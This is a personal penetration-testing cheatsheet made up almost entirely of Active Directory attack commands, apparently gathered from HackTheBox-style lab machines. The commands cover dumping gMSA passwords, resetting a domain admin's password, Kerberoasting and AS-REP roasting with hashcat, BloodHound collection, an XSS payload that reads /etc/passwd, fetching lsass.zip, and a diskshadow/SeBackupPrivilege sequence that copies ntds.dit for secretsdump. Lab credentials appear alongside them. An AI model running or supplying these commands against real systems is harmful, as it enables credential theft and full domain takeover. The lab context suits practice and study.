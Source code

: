 ```yaml
---
title: "Cheatsheets"
layout: categories
permalink: /cheatsheet/
---
```


## GMSA from powershell

```
$gmsa = Get-ADServiceAccount -Identity 'BIR-ADFS-GMSA' -Properties 'msDS-ManagedPassword'
$mp = $gmsa.'msDS-ManagedPassword'

#make the password into variable
$c = ConvertFrom-ADManagedPasswordBlob $mp
```

## Change password from powershell
```
$username ="BIR-ADFS-GMSA";
$password = $c.SecureCurrentPassword; 
$cred = New-Object System.Management.Automation.PSCredential -ArgumentList $username, $password;
Invoke-Command -ScriptBlock { whoami } -ComputerName RESEARCH -Credential $cred
```

## Change domain admins password

```
Invoke-Command -ComputerName localhost -Credential $cred -ScriptBlock {net user Tristan.Davies bunnys666 /domain}
```

## Service Principal Names

```
GetUserSPNs.py search.htb/hope.sharp:'IsolationIsKey?' -request -dc-ip 10.10.11.129 -outputfile hash
```

## AS-REP Roasting

```
GetNPUsers.py BLACKFIELD.local/ -usersfile usernames.txt -format hashcat -dc-ip 10.10.10.192 -outputfile AS-REP
```
### Hashcat

```
hashcat -m 18200 -a 0 AS-REP ~/Desktop/htb-tool/rockyou.txt
```


## Bloodhound

### Bloodhound.py

```
./bloodhound.py -d search.htb -u hope.sharp -p 'IsolationIsKey?' -ns 10.10.11.129 -c all
```

## XSS passwd file

```
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script>
```

## LDAP Naming Context

```
ldapsearch -x -h $ip -D '' -w '' -b "DC=cascade,DC=local" > ldap.log
```

## Deleted Object AD

```
Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects
```

### Deleted information object AD

```
Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *
```

## SMB Get file

```
smbget -R smb://audit2020:'Password123'@10.10.10.192/forensic/memory_analysis/lsass.zip
```

## Disk Shadow

```
set context persistent nowriters  
set metadata c:\windows\system32\spool\drivers\color\example.cab  
set verbose on  
begin backup  
add volume c: alias mydrive  
 
create  
  
expose %mydrive% w:  
end backup  
```

## SeBackup Privilege Enabled

```
#evil-winrm
upload SeBackupPrivilegeUtils.dll
upload SeBackupPrivilegeCmdLets.dll

# import module cmdlets command
Import-Module .\SeBackupPrivilegeCmdLets.dll
Import-Module .\SeBackupPrivilegeUtils.dll

Copy-FileSeBackupPrivilege w:\windows\NTDS\ntds.dit c:\temp\ntds.dit -Overwrite
reg save HKLM\SYSTEM c:\temp\

secretsdump.py -ntds ntds.dit -system system -just-dc LOCAL 
```

## DNS Enumeration

```
dnsenum --dnsserver 10.10.10.224 -f /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt realcorp.htb -u z -v
```

## Keytab Kerberos

```
kadmin -kt /etc/krb5.keytab -p kadmin/admin@REALCORP.HTB
```